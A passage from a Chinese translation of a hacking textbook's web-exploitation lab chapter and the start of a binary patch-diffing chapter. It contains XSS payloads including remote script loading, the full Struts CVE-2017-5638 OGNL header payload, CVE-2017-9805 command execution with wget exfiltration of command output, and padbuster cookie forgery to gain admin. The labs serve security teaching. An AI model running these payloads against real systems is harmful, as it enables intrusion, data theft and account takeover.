构建输出字符串的位置 { 仅用 <BR> 标签将元素分隔开。为了让脚本标签进入，我们将不得不将其拆分为 Full Name 和 Address 字段，但 <BR> 会破坏一切。因此，为了绕过这个问题，我们将在脚本标签中创建一个假字段值。让我们尝试将 Full Name 字段设为 <script qq="，将 Address 字段设为 " >，然后单击 Register。

在开发者工具的 Inspector 选项卡中调出弹出框并搜索 “registration of”。查看第二个实例，我们看到我们的脚本标签已成功插入，但现在我们必须实际创建 JavaScript 来执行我们的函数。为此，我们需要利用 DOM。在 JavaScript 中，大多数函数是 window 对象的子对象。在那里，要调用 alert，我们可以使用 window["alert"](1)。

让我们用名称 <script qq= 和地址 ">window["alert"](1) 提交表单并看看会发生什么。我们会收到失败消息，但没有文本。这可能是好事，但我们在查看代码之前不会确定：

```html
<div class="modal-body" id="my-msgbox">Your registration of
<script qq="<BR>"> window["alert"] (1) <BR>Afghanistan<br>was successful.
</script>
</div>
```

我们在这里看到，我们的警告消息已成功插入，但其后仍有文本。要修复此问题，让我们在 JavaScript 后面加一个分号，并将行的其余部分作为注释，然后再试一次。这样，行的其余部分就不会被解释，我们的命令将执行，然后浏览器会为我们关闭脚本标签，我们就有了有效代码。要测试这一点，为名称使用 <script qq="，为地址使用 ">window["alert"] (1);//。

图 16-8 表明我们的警告消息成功了。但是，当我们在 Chrome 中尝试这个时会发生什么？它也有效，因为 XSS 是由于 JavaScript 发生的


操纵。现在我们对如何绕过不同类型的 XSS 防护有了一些额外的想法。不过，这只是个开始；随着技术的发展，我们必须不断调整策略。因此，理解 JavaScript 和常见库将有助于我们在更受限的环境中更熟练地创建 XSS。


图 16-8 我们成功的警报消息

警报消息不错，但有时我们希望做的不仅仅是弹出一个框。在这些情况下，我们不想将所有 JavaScript 都输入到 XSS 中。相反，我们希望 XSS 加载远程脚本并执行内容。在这个示例中，我们将直接从 GitHub 加载一些代码，然后在我们的应用中执行其中的函数。我们仍然会在全名字段中使用 <script src="，但我们将使用示例中包含的 JQuery 库的一些代码来加载远程代码。

JQuery 是一个辅助库，为许多不同任务提供辅助功能。你可以找到许多关于如何使用 JQuery 的教程，所以我们现在不深入讨论，但我们将使我们的地址不同以展示这种技术如何工作。我们的地址字段现在将读作如下：

```
$.getScript (
  "https://raw.githubusercontent.com/GrayHatHacking/GHHv5/master/ch16/test.js",
  function(){ hacked(); } ); //
```

这会直接从 GitHub 加载代码。当脚本加载时，它将执行我们指定的成功函数。在我们的情况中，成功函数只是运行一个名为 hacked 的函数，该函数位于远程加载的文件中。当 hacked 函数运行时，它只是创建一个新的警报框，但它可以执行你用 JavaScript 能做的任何事情，例如伪造登录框或对受害者进行按键记录。

## 框架漏洞

使用框架是更快速开发代码并无需编写大量代码即可获得功能的惊人方式。2017 年，许多此类框架正在使用，但两个高知名度的漏洞发生在一个名为 Struts 的框架中，该框架属于 Apache 项目。Struts 是一个通过模型-视图-控制器 (MVC) 架构提供 REST、AJAX 和 JSON 等接口来帮助 Web 应用程序开发的框架。Struts 是过去十年最大的安全漏洞之一的源头——即影响了 1.43 亿个人的 Equifax1 漏洞。

## 设置环境

对于本节的实验，我们将使用带有易受攻击版本的 Struts 的 Web 服务器。为此，我们需要从本章的 GitHub 仓库构建一个不同的 Docker 镜像。首先，我们需要确保我们之前的 Docker 镜像已停止：

```
# docker container list -f "ancestor=xss"
CONTAINER ID        IMAGE               COMMAND                 CREATED
STATUS              PORTS               NAMES
caea75279d86        xss                 "/my_init"            39 hours ago
Up 39 hours         0.0.0.0:80->80/tcp  vigilant_goldwasser
# docker container stop caea75279d86
caea75279d86
```

如果第一个命令返回容器，则对该容器 ID 发出停止命令。这应确保我们之前的镜像已停止。接下来，我们需要创建带有易受攻击的 Struts 库的 Tomcat 镜像。以下命令假设你位于本书 GitHub 仓库的 Ch16 目录中：

```
root@kali:~/Ch16# cd Vuln_Tomcat/
root@kali:~/Ch16/Vuln_Tomcat# docker build -t vuln_tomcat .
Sending build context to Docker daemon  566.9MB
Step 1/7 : FROM tomcat:9
<trimmed for brevity>
Successfully built f800d8acfe1e
Successfully tagged vuln_tomcat:latest
root@kali:~/Ch16/Vuln_Tomcat# docker run -p 8080:8080 -dti vuln_tomcat
f04e7d549f6a9758079c59319bf06134fff7f065e039624c8a88e851921fa502
```

现在我们的 Tomcat 实例应该已在端口 8080 上运行。你可以通过在 Kali 64 位镜像上访问 http://localhost:8080 来验证其是否正常工作。

## 实验 16-5：利用 CVE-2017-5638

Struts 中的 CVE-2017-5638 漏洞是在将无效头放入请求时调用的异常处理程序中的弱点。² 当 Multipart 解析器看到错误时，会触发此漏洞。当发生错误时，头中的数据会被 Struts 评估，从而允许代码执行。在这个示例中，我们可以看到代码执行，因此可以在目标实例上交互式运行命令。

随 Struts 一起提供的演示应用程序之一被称为 Struts Showcase。它展示了许多功能，以便你可以看到可以使用 Struts 做哪些事情。不过，在易受攻击的 Struts 版本中，Showcase 是一个极好的利用路径。要在我们的 VM 上查看 Showcase，请导航到 http://localhost:8080/struts-showcase/，你应该能看到示例应用。

对于我们的利用，我们将使用发布在 Exploit-DB.com 上的一个利用。利用编号 41570 可以在 https://www.exploit-db.com/exploits/41570/ 上找到，或者你可以在 Kali 镜像上使用 searchsploit，它会在文件系统中显示利用所在的位置。Exploit-DB 利用默认存在于 Kali 安装中，因此你不需要下载任何特殊内容。我们将首先将利用复制到本地目录，然后尝试一些基本的操作——获取运行 Tomcat 的用户的 ID：

```
# cp /usr/share/exploitdb/platforms/linux/webapps/41570.py .
# python 41570.py http://localhost:8080/struts-showcase/showcase.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id
uid=0(root) gid=0(root) groups=0(root)
```

当我们运行利用时，我们针对的是 struts-showcase 目录中的 showcase.action 文件。这是 Struts Showcase 应用的默认操作。我们指定要使用的命令为 id，它将检索服务器正在以其身份运行的 ID。在这种情况下，它以 root 身份运行，因为我们在 Docker 内部运行此利用，并且大多数应用在 Docker 内部以 root 身份运行。

让我们看看这里发生了什么。为此，我们需要对脚本进行快速修改，使其输出调试信息。我们将使用自己喜欢的编辑器，使脚本的顶部部分如下所示：

```
#! /usr/bin/python
# -*- coding: utf-8 -*-

import urllib2
import httplib

handler=urllib2.HTTPHandler(debuglevel=1)
opener = urllib2.build_opener(handler)
urllib2.install_opener(opener)
```

这会导致在运行脚本时记录调试输出。接下来，我们将再次使用 id 命令运行脚本并查看输出。输出看起来会非常混乱，但我们可以通过使用命令行过滤输出来只获取我们感兴趣的部分：

```
# echo -e 'python 41570.py http://localhost:8080/struts-showcase/showcase.action "id" | grep send: | cut -f 2- -d :'
"GET /struts-showcase/showcase.action HTTP/1.1
Accept-Encoding: identity
Host: localhost:8080
➊Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?
#_memberAccess=#dm['multipart/form-data'].(#context.setMemberAccess(#dm))).(#ognlUtil=#context['com.opensymphony.xwork2.ActionContext.container'].getInstance(#ognlUtil)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))).(#cmd='id').(#iswin=(@java.lang.System.getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Connection: close
User-Agent: Mozilla/5.0
```

这看起来好多了，但中间的利用代码信息量较大，所以让我们分析一下这里发生了什么。首先，利用在 Content-Type ➊ 头中被触发。Content-Type 的值被设置为将创建进程的代码。该代码在 Struts 内部创建一个操作容器 ➋，然后调用一个实用程序类，允许我们在该操作的上下文中工作 ➌。接下来，代码清除被阻止的函数并指定要运行的命令 ➍。

因为代码不知道脚本是在 Linux 还是 Windows 上运行，所以它会针对每个操作系统名称进行检查，并构建 cmd.exe 语法或 bash 语法来运行脚本。接下来，它使用 ProcessBuilder ➎ 类，该类允许创建进程。然后启动进程，输出 ➏ 由脚本捕获，以便它获取所有输出并将其打印到屏幕上。基本上，所有这些都是创建一个运行进程的上下文，运行它，获取输出并将其再次打印到屏幕上。

## 实验 16-6：利用 CVE-2017-9805

2017 年几个月后，又发布了另一个导致远程代码执行的 Struts 漏洞。此漏洞影响 Struts 的另一部分：REST 接口。此漏洞发生的原因是发送到服务器的数据在未检查数据是否有效的情况下被反序列化。因此，可以创建并执行对象。不幸的是，使用此漏洞，我们无法真正看到影响。因此，我们将不得不做一些额外的工作才能与目标系统进行任何交互。

首先，我们需要一个针对此漏洞的利用。Exploit-DB 有一个我们可以使用的利用。你可以从 https://www.exploit-db.com/exploits/42627/ 获取它，或者可以再次使用 searchsploit 找到本地副本。让我们取该本地副本并将其复制到我们的目录中：


# searchsploit -u
# searchsploit 42627

| 漏洞利用标题 | 路径 |
|---|---|
| Apache Struts 2.5 < 2.5.12 - REST 插件 XST | linux/remote/42627.py |

```bash
root@kali:~/Ch16/Vuln_Tomcat/working/a# cd ...
# cp /usr/share/exploitdb/platforms/linux/remote/42627.py .
```

拥有漏洞利用脚本的本地副本后，我们需要确保目标位置正确。为确保可以访问该页面，请访问 http://localhost:8080/struts-rest-showcase/orders.xhtml。这是 Struts Rest Showcase 的主页，但该页面本身不具备我们所需的漏洞利用条件。由于漏洞存在于消息处理中，我们需要找到一个可提交数据的页面。点击“Bob”的 view，你会发现自己处于 orders/3 页面。这就是我们将要使用的页面。接下来，让我们进行快速测试：

```bash
# python 42627.py http://localhost:8080/struts-rest-showcase/orders/3 "id"
<LOTS AND LOTS OF ERRORS>
</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.0.M26</h3></body></html>
```


**提示** 如果收到关于无效 UTF-8 字符的错误，请使用你喜欢的编辑器删除 42627.py 中读取如下的行：

# Version: Struts 2.5 - Struts 2.5.12

我们的测试产生了大量错误，但这不一定意味着什么。这种类型的漏洞利用在运行时会产生异常，因此这些错误实际上可能意味着好事。那么，我们如何判断测试是否有效呢？我们可以对命令进行 ping 检查。在一个窗口中，我们将启动 pcap 抓包：

```bash
# tcpdump -A -s 0 -i docker0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), capture size 262144 bytes
```

在另一个窗口中，我们将运行漏洞利用脚本。这将发起五次 ping——如果成功，我们应该在 docker0 接口上看到它们：

```bash
# ip addr show dev docker0
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP
group default
    link/ether 02:42:07:b8:42:82 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:7ff:feb8:4282/64 scope link
       valid_lft forever preferred_lft forever
```

我们的 Docker 实例将绑定到 docker0 接口，因此为验证漏洞利用是否有效，我们将向 docker0 接口地址发送五次 ping，并且应该在 pcap 抓包中看到这些 ping。ping 显示我们能够在主机上成功运行命令。不幸的是，Docker 容器非常精简，因此我们需要部署一些东西来实际与主机交互。在 pcap 仍在运行的情况下，让我们看看可用的命令。我们可以使用的两个理想命令是 curl 和 wget 来发送数据。首先，让我们尝试 curl：

```bash
# python 42627.py http://localhost:8080/struts-rest-showcase/orders/3 'ping -c 5 -p `curl http://localhost || echo -n "ff"` 172.17.0.1 '
```

此命令将尝试 ping 回我们的主机，但这里的诀窍是我们使用了 ping 的 -p 载荷选项来获取成功或错误条件。如果 curl 不存在，我们将收到 ping 回显；如果 curl 存在，则不会收到任何回显，因为命令将无效。我们看到了 ping，因此 curl 不存在于该镜像中。让我们尝试 wget：

```bash
# python 42627.py http://localhost:8080/struts-rest-showcase/orders/3 'ping -c 5 -p `wget http://localhost || echo -n "ff"` 172.17.0.1 '
```

我们没有收到响应，因此看起来 wget 存在。在 Ch16 目录的 Vuln_Tomcat 目录中，我们看到一个名为 webcatcher.py 的文件。我们将运行它来捕获一些基本的 wget 数据，并使用 wget 发送带有命令输出的 POST 数据：

```bash
# python webcatcher.py 9090
Server started on port 9090
```

现在，对于我们的漏洞利用，我们需要构建一些东西来使用 wget 获取数据。为此，我们将使用 --post-data 选项将命令输出作为 POST 数据发送回来。我们的 webcatcher 将捕获该 POST 数据并为我们打印出来。让我们构建执行基本 ls 的命令：

```bash
# python 42627.py http://localhost:8080/struts-rest-showcase/orders/3 'wget -O /dev/null --post-data "a=`echo; ls`" http://172.17.0.1:9090/asdf '
```

我们将使用 wget 程序向我们的 Web 服务器发送 POST 请求。我们将输出文件指定为 /dev/null，以免它尝试实际下载任何内容，并将 POST 数据设置为我们命令的输出。我们先使用 echo 命令生成一个换行以便更易读，然后执行 ls。在我们的 Web 服务器上，我们应该看到请求和我们的 POST 数据：

```text
172.17.0.2 - - [30/Sep/2017 00:50:32] "POST /asdf HTTP/1.1" 200 -
172.17.0.2 - - [30/Sep/2017 00:50:32] a=
LICENSE
NOTICE
RELEASE-NOTES
```

它有效了，并且现在即使我们的漏洞利用不会将数据返回到网页，我们也可以创建成功和错误条件来获取后端发生情况的信息。我们还可以使用内置工具发送数据，以便查看交互情况。

源代码太长，无法包含在本章中，但如果您想查看正在执行的代码，请查看 42627.py 文件。从本质上讲，这个漏洞利用与我们之前做的最后一个类似，因为它使用 ProcessBuilder 来执行命令。但是，在此示例中，漏洞存在于作为异常一部分解析的 XML 中。

## 填充预言机攻击

填充预言机攻击最初因 2014 年的一个 .NET 漏洞而广为人知，该漏洞允许修改 viewstate 信息。viewstate 包含用户在应用程序中的状态信息，因此用户可能利用此漏洞更改访问权限、执行代码等。该漏洞利用发布后，人们意识到许多设备和应用程序都容易受到相同攻击，因此该漏洞利用获得了更多关注，并发布了工具来帮助进行此类攻击。

不过，什么是填充预言机攻击呢？当使用一种称为密码块链（Cipher Block Chaining, CBC）的加密类型时，数据会被分块进行加密。每个块都使用前一个块的数据作为加密种子，这创造了额外的随机性，因此发送给不同人的相同消息看起来会不同。当没有足够的数据填充一个块时，会用额外数据对块进行填充以达到块长度。如果块在末尾全部填满，则会添加一个额外的空块。

借助填充预言机攻击，我们可以利用加密的工作方式，根据可能的填充值来推断最后一个块中的数据。解决最后一个块后，我们可以在解密数据的同时向后移动。一旦数据被解密，我们可以重新加密它并用它替换原始数据。理想情况下，发送的数据应带有校验和以标识其是否被修改，但易受攻击的主机不会执行此计算，因此我们可以随意修改内容。


注意 这是一个非常复杂的主题，涉及大量数学。Bruce Barnett 关于此主题的精彩文章已在“进一步阅读”部分提供。如果您想了解加密背后的数学，那是一个很好的起点。

## 实验 16-7：使用填充预言机攻击修改数据

对于本实验，我们将修改身份验证 Cookie 来演示此攻击。我们将使用来自 http://pentesterlab.com 的示例 Web 应用作为目标。我们将通过另一个 Docker 镜像部署它，因此让我们先进行设置。从新窗口中，在 Ch16/padding 目录下执行以下命令：

```bash
root@kali:~/Ch16/padding# docker container ls -f "ancestor=vuln_tomcat"
CONTAINER ID        IMAGE               COMMAND                   CREATED
STATUS              PORTS               NAMES
f04e7d549f6a        vuln_tomcat         "catalina.sh run"         12 hours ago
Up 12 hours         0.0.0.0:8080->8080/tcp   quirky_shannon
root@kali:~/Ch16/padding# docker container stop f04e7d549f6a
f04e7d549f6a
root@kali:~/Ch16/padding# docker build -t padding .
Sending build context to Docker daemon  157.7kB
<trimmed for brevity>
Successfully built 1f8a631cbb0a
Successfully tagged padding:latest
root@kali:~/Ch16/padding# docker run -p 80:80 -dit padding
```

接下来，打开 Web 浏览器访问 http://localhost 以验证页面是否加载。本实验将使用 Firefox。首先需要创建一个新帐户，因此请点击 Register 按钮，并使用用户名 hacker 和密码 hacker 创建新帐户。点击 Register 后，您应该会看到显示已以 hacker 身份登录的页面。

现在您有了有效帐户，让我们从应用中获取 Cookie。为此，按 CTRL-SHIFT-I 调出开发者工具栏。点击 Console 选项卡，然后在底部带有 “>>” 提示的窗口中单击。我们要获取 Cookie，因此尝试输入 document.cookie。输出应与图 16-9 类似，但您的 Cookie 值会不同。


图 16-9 我们已登录用户的 Cookie 值


NOTE 如果您的搜索没有显示任何结果，请尝试清除调试器中的所有过滤器。这可能会阻止您的内容显示。

现在我们有了 cookie，看看是否可以利用填充预言机从 cookie 中获取数据。为此，我们将使用一个名为 padbuster 的工具。我们需要为 padbuster 指定 cookie 值、要解密的值以及使用 cookie 的 URL。

我们需要为 padbuster 脚本指定几个内容。第一个是 URL，第二个是要更改的值。由于此脚本使用块大小为 8 的加密，我们指定 8。最后，我们指定 cookie 和编码。编码为 0 表示使用 Base64。现在我们可以尝试填充攻击了：

```
# padbuster http://localhost/login.php TOdSvw8eYcwsCl1CaMS7t0TIj532okRK 8 \
--cookies auth=T0dSvw8eYcwsCl1CaMS7t0TIj532okRK --encoding 0
```

```
+---------------------------------------------+
| PadBuster - v0.3.3                          |
| Brian Holyfield - Gotham Digital Science    |
| labs@gdssecurity.com                        |
+---------------------------------------------+
```

```
INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1530
```

```
INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***
INFO: No error string was provided...starting response analysis
*** Response Analysis Complete ***
The following response signatures were returned:
```

| ID# | 频率 | 状态 | 长度 | 位置 |
|-----|------|------|------|------|
| 1 | 1 | 200 | 1608 | N/A |
| 2 ** | 255 | 200 | 15 | N/A |

```
Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2
<trimmed for brevity>
Block 2 Results:
[+] Cipher Text (HEX): 44c88f9df6a2444a
[+] Intermediate Bytes (HEX): 476e2b476dc1beb2
[+] Plain Text: ker
--------------------------------------------------------------------------------
** Finished ***
```

```
[+] Decrypted value (ASCII): user=hacker

[+] Decrypted value (HEX): 757365723D6861636B6572205050505050505

[+] Decrypted value (Base64): dXNlcjpoYWNrZXJQUA==
```

当 padbuster 提示我们选择成功或错误条件时，我们选择了 2，因为它是出现频率最高的情况，且测试中错误应多于成功。这也是 padbuster 推荐的值，因此是一个不错的选择。我们看到 cookie 已被解密，其值为 user=hacker。

现在我们知道 cookie 的值长什么样子了，如果我们能修改 cookie 使其读取为 user=admin，那该多好？使用 padbuster，我们也可以做到这一点。我们需要再次指定 cookie 并提供要编码的数据，它将返回我们需要的 cookie 值。让我们试一下：

```
# padbuster http://localhost/login.php TOdSvw8eYcwsC11CaMS7t0TiJ532okRK 8 \
--cookies auth=T0dSvw8eYcwsC11CaMS7t0TiJ532okRK --encoding 0 \
--plaintext user=admin
<trimmed for brevity>
---------------------
** Finished ***
---------------------
[+] Encrypted value is: BAitGdYyupMjA3gl1aFoOwAAAAAAAAAA
```

现在我们有了加密后的 cookie 值。下一步是将该值添加回 cookie 并重新加载页面以查看是否有效。我们可以复制输出，然后通过运行以下两个命令来设置 cookie：

```
document.cookie="auth=BAitGdYyupMjA3gl1aFoOwAAAAAAAAAA"
document.cookie
```

我们的输出应该显示，在设置 cookie 并再次查询后，cookie 确实已设置为我们的新值。图 16-10 显示了对 cookie 的初始查询、更改 cookie 值，然后再次查询。设置 cookie 后，在浏览器中单击刷新，您现在应该看到自己已成功以 admin 身份登录（屏幕底部显示为绿色）。


图 16-10 更改 cookie 值

## 摘要

本章你学到的内容概要如下：

- 渐进式更困难的针对 Web 应用程序中跨站点脚本漏洞的攻击方法
- 如何利用示例 Struts 应用程序中两种不同类型的反序列化问题
- 如何将命令串联在一起，以便在盲攻击中确定命令是成功还是失败
- 填充预言机攻击的工作原理，以及如何使用它来更改 cookie 的值

## 进一步阅读

“CBC 填充预言机攻击简化：关键概念与陷阱”（Bruce Barnett，The Grymoire，2014 年 12 月 5 日）
https://grymoire.wordpress.com/2014/12/05/cbc-padding-oracle-attacks-simplified-key-concepts-and-pitfalls/

OWASP 反序列化说明 https://www.owasp.org/index.php/Deserialization_of_untrusted_data

## 参考文献

- 1. “Dan Godwin，“未修补两个月的旧漏洞导致 Equifax 大规模数据泄露，”Ars Technica，2017 年 9 月 9 日，https://arstechnica.com/information-technology/2017/09/massive-equifax-breach-caused-by-failure-to-patch-two-month-old-bug/.
- 2. “CVE 2017-4638 分析，”Gotham Digital Science，2017 年 3 月 27 日，https://blog.gdssecurity.com/labs/2017/3/27/an-analysis-of-cve-2017-5638.html.

## 第 17 章

## 下一代补丁利用

响应漏洞研究带来的丰厚增长，对已修补漏洞的二进制差分分析的兴趣水平继续上升。私下披露和内部发现的漏洞通常只提供有限的公开技术细节。二进制差分分析过程可以比作寻宝，研究人员获得关于漏洞位置和细节的有限信息，即“埋藏的宝藏”。只要具备适当的技能和工具，研究人员就可以定位并识别代码更改，然后开发可用的漏洞利用。

- 在本章中，我们将介绍以下主题：
- 应用程序和补丁差分分析
- 二进制差分分析工具
- 补丁管理流程
- 现实世界中的差分分析

## 二进制差分分析简介

当对库、应用程序和驱动程序等已编译代码进行更改时，已修补版本和未修补版本之间的差异可能会提供发现漏洞的机会。在最基本的层面上，二进制差分分析是识别同一文件两个版本之间差异的过程，例如版本 1.2 和 1.3。可以说，二进制差分最常见的目标是 Microsoft 补丁；然而，这可以应用于多种不同类型的已编译代码。有多种工具可用于简化二进制差分分析过程，从而使检查人员能够快速在反汇编视图中识别代码更改。

## 应用程序差分分析

应用程序的新版本经常发布。发布背后的理由可能包括引入新功能、对支持新平台或内核版本的代码进行更改、利用新的编译时安全控制（如 canaries 或 Control Flow Guard (CFG)）以及修复漏洞。通常，新版本可能包含上述理由的组合。应用程序代码更改越多，识别任何已修补漏洞就越困难。在很大程度上，识别与漏洞修复相关的代码更改的成功取决于有限的披露。许多组织选择发布关于安全补丁性质的最少信息。我们从这些信息中获得的线索越多，就越有可能发现漏洞。本章后面将在现实世界场景中展示这些类型的线索。

这里展示了一个包含漏洞的 C 代码片段的简单示例：

```c
/*Unpatched code that includes the unsafe gets() function. */
int get_Name() {
    char name[20];
    printf("\nPlease state your name: ");
    gets(name);
    printf("\nYour name is %s.\n\n", name);
    return 0;
}
```

下面是已修补的代码：

```c
/*Patched code that includes the safer fgets() function. */
int get_Name() {
    char name[20];
    printf("\nPlease state your name: ");
    fgets(name, sizeof(name), stdin);
    printf("\nYour name is %s.\n\n", name);
    return 0;
}
```

第一个代码片段的问题是使用了 gets() 函数，该函数不提供边界检查，导致缓冲区溢出机会。在已修补的代码中，使用了 fgets() 函数，该函数需要一个大小参数，从而有助于防止缓冲区溢出。fgets() 函数被认为已弃用，可能不是最佳选择，因为它无法正确处理空字节（例如在二进制数据中）；但是，它比 gets() 是更好的选择。我们将稍后通过使用二进制差分分析工具来查看这个简单示例。

## 补丁差分分析

安全补丁（例如 Microsoft 和 Oracle 的补丁）是二进制差分分析的最有利可图的目标之一。Microsoft 历来有一个计划周密的补丁管理流程，遵循每月计划，补丁在每月的第二个星期二发布。被修补的文件大多是动态链接库 (DLL) 和驱动程序文件，尽管许多其他文件类型也会收到更新。许多组织不会快速修补其系统，这为攻击者和渗透测试人员留下了机会，他们可以借助补丁差分分析，通过公开披露或私下开发的漏洞利用来攻破这些系统。从 Windows 10 开始，Microsoft 对修补要求的力度更大。取决于已修补漏洞的复杂性以及定位相关代码的难度，可用的漏洞利用有时可以在补丁发布后的几天内快速开发。通过逆向工程安全补丁开发的漏洞利用通常被称为 1-day 漏洞利用。

随着本章的推进，您将很快看到对驱动程序、库和应用程序的代码更改进行差分分析的好处。虽然这不是一门新学科，但二进制差分分析作为一种可行的方法，继续吸引着安全研究人员、黑客和供应商的关注。


## 二进制差异比对工具

用于发现漏洞并牟利的技术。1-day 漏洞利用的标价不如 0-day 漏洞利用高；但是，对于备受追捧的漏洞利用，出现五位数的报酬并不罕见。漏洞利用框架供应商希望拥有比竞争对手更多与私下披露的漏洞相关的漏洞利用。

使用交互式反汇编器（IDA）等反汇编器手动分析大型二进制文件的编译代码，即使对最熟练的研究人员来说也是一项艰巨的任务。通过使用免费和商业的二进制差异比对工具，可以简化锁定与已修补漏洞相关的感兴趣代码的过程。此类工具可以节省数百小时用于逆向可能与所需漏洞无关的代码的时间。以下是五种最广为人知的二进制差异比对工具：

- Zynamics BinDiff (free) 该工具于2011年初被Google收购，Zynamics BinDiff 可在 www.zynamics.com/bindiff.html 上获取。它需要IDA的授权版本，版本5.5或更高。
- turbodiff (free) 由Core Security的Nicolas Economou开发，turbodiff 可在 http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=tool&name=turbodiff 上获取。它可与IDA 4.9或5.0的免费版本一起使用。
- patchdiff2 (free) 由Nicolas Pouvesle开发，patchdiff2 可在 https://code.google.com/p/patchdiff2/ 上获取。它需要IDA 6.1或更高版本的授权版本。
- DarunGrim (free) 由Jeong Wook Oh (Matt Oh)开发，DarunGrim 可在 www.darungrim.org 上获取。它需要最新的IDA授权版本。
- Diaphora (free) 由Joan Koret开发。Diaphora 可在 https://github.com/joxeankoret/diaphora 上获取。只有最新版本的IDA获得官方支持。

这些工具中的每一个都作为IDA的插件工作，使用各种技术和启发式方法来确定同一文件两个版本之间的代码更改。在针对相同输入文件使用每个工具时，您可能会体验到不同的结果。每个工具都需要能够访问IDA数据库（.idb）文件，因此需要IDA的授权版本，或者与turbodiff一起使用的免费版本。在本章的示例中，我们将使用商业版BinDiff工具以及turbodiff，因为它可与仍可在各种网站上找到的IDA 5.0免费版一起工作。这使得没有商业版IDA的人也能完成练习。列表中目前积极维护的唯二工具是Diaphora和BinDiff，尽管BinDiff并不经常更新。这些工具的作者应当受到高度赞扬，因为他们提供了如此出色的工具，为我们节省了无数寻找代码更改的小时。

### BinDiff

如前所述，2011年初，Google收购了德国软件公司Zynamics，知名研究员Thomas Dullien（又名Halvar Flake）担任研究主管。Zynamics广为人知的工具是BinDiff和BinNavi，两者都有助于逆向工程。收购后，Google将这些工具的价格大幅降低至原价的十分之一，使其更加易于获取。2016年3月，Google宣布今后BinDiff将免费提供。新版本并不常见发布，在撰写本文时，BinDiff 4.3是最新版本。4.3版本提供对macOS的支持。BinDiff经常被赞誉为同类最佳工具之一，可对块和代码更改进行深入分析。截至2018年初，BinDiff尚未移植到IDA 7.1或更高版本上运行。这随时都可能发生变化。

BinDiff 4.3以Windows安装程序包（.msi）形式提供。安装只需几次点击、一份授权的IDA副本以及Java SE Runtime Environment 8。要使用BinDiff，必须允许IDA对要比较的两个文件执行自动分析并保存IDB文件。完成此操作后，并在IDA中打开其中一个文件，按CTRL-6调出BinDiff GUI，如下所示。


下一步是单击Diff Database按钮并选择要进行差异比对的另一个IDB文件。根据文件大小，完成可能需要一两分钟。差异比对完成后，IDA中会出现一些新选项卡，包括Matched Functions、Primary Unmatched和Secondary Unmatched。Matched Functions选项卡包含同时存在于两个文件中的函数，这些函数可能包含更改，也可能不包含。其他选项卡可以关闭。每个函数在Similarity列中都有一个0到1.0之间的分值，如下所示。值越低，表示函数在两个文件之间的变化越大。正如Zynamics/Google关于Primary Unmatched和Secondary Unmatched选项卡所言：“第一个显示当前打开的数据库中包含但未与差异比对数据库中的任何函数关联的函数，而Secondary Unmatched子视图包含存在于差异比对数据库中但未与第一个数据库中的任何函数关联的函数。”¹

| 相似度 | 置信度 | 变更 | 主EA | 主函数名 | 次EA | 次函数名 |
|---|---|---|---|---|---|---|
| 0.90 | 0.95 | GI!-E-- | 0000000001D6F40 | EQoSpPolicyParseIP | 0000000000169BE8 | _EQoSpPolicyParseIP@20 |
| 0.90 | 0.95 | GI!-E-- | 00000000000E06E8 | TcpWsdProcessConnecit... | 00000000000C502F | _TcpWsdProcessConnectionWsNegotiationFailure@4 |
| 0.90 | 0.94 | -I!-E-C | 000000000009D880 | TcpTtlConnectionIoContro... | 00000000006758B | TcpTtlConnectionIoControlEndpoint |
| 0.90 | 0.93 | -I!-E-- | 0000000000EF20C | WfpSignalIpsecDecryptC... | 0000000000D206B | _WfpSignalIpsecDecryptCompleteInternal@20 |
| 0.90 | 0.92 | -I!-E-C | 0000000000DC890 | TcpBwAbortAllOutbound... | 0000000000C188E | _TcpBwAbortAllOutboundEstimation@4 |
| 0.89 | 0.95 | GI!-E-- | 000000000034F9C | IppAddOrDeletePersisten... | 00000000001BD96 | IppAddOrDeletePersistentRoutes |
| 0.89 | 0.94 | -I!-E-- | 0000000000F1438 | NlShimFillWfEdgeInfo | 0000000000D3C59 | _NlShimFillWfEdgeInfo@8 |
| 0.89 | 0.92 | -I!-E-- | 00000000003D028 | TcpBwStopInboundEstim... | 00000000013345 | TcpBwStopInboundEstimation |
| 0.89 | 0.91 | -I!-E-- | 0000000000FB410 | QimClearEQsProfileFro... | 0000000000DCA49 | _QimClearEQsProfileFromQimContext@4 |

为了获得最准确的结果，对正确的文件版本进行差异比对非常重要。在访问Microsoft TechNet获取2017年4月前发布的补丁时，您会在最右侧看到标题为“已替换的更新”的列。获取2017年4月起发布的补丁的流程将在稍后介绍。单击该位置的链接（“已替换的更新”）将带您进入被补丁文件之前的最新更新。类似mshtml.dll的文件几乎每月都会打补丁。如果您将几个月前的文件版本与刚刚发布的补丁进行差异比对，两个文件之间差异的数量将使分析变得非常困难。其他文件打补丁的频率不高，因此单击前述的“已替换的更新”链接将带您进入该文件的最后一次更新，以便您可以对正确的版本进行差异比对。使用BinDiff识别出感兴趣的函数后，可以通过右键单击Matched Functions选项卡中的所需函数并选择View Flowgraphs，或者单击所需函数并按CTRL-E来生成可视化差异。以下是可视化差异的示例。请注意，不指望您能读懂反汇编代码，因为它已缩小以适应页面。


### turbodiff

